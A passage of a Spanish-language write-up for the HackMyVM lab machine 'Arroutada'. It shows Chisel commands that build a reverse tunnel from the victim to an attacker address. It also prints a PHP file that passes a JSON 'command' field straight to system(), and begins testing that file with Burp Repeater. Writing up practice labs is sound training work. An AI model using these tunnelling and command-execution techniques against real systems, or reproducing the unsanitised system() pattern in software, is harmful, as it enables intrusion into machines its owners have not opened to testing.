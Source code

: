 Ahora daremos permiso de ejecución en la máquina víctima a Chisel con `chmod +x chisel` y ejecutaremos:

- En la máquina atacante
`./chisel server --reverse -p 1234`

- En la máquina víctima
`./chisel client 192.168.1.136:1234 R:8000:127.0.0.1:8000`

Ahora ya tenemos creada la conexión, por lo que si miramos nuestro puerto 8000 local:

![](/assets/images/arroutada/localhost.png){: .align-center}

Parece que ese contenido "ilegible" está en [Brainfuck](https://es.wikipedia.org/wiki/Brainfuck), si lo decodificamos con <https://www.dcode.fr/brainfuck-language> el mensaje quedaría como: "This site is from all HackMyVM hackers!!"

Aquí Rijaba1 nos hace un guiño a la comunidad y además, en el código nos da otra pista, que saniticemos el *priv.php*:

~~~~php
❯ curl localhost:8000/priv.php
Error: the "command" parameter is not specified in the request body.

/*

$json = file_get_contents('php://input');
$data = json_decode($json, true);

if (isset($data['command'])) {
    system($data['command']);
} else {
    echo 'Error: the "command" parameter is not specified in the request body.';
}

*/
~~~~

Viendo ese fichero, parece que tenemos que pasarle un comando en JSON, para ello vamos a usar la función *Repeater* de *BurpSuite* para ir probando:

![](/assets/images/arroutada/burp.png){: .align-center}
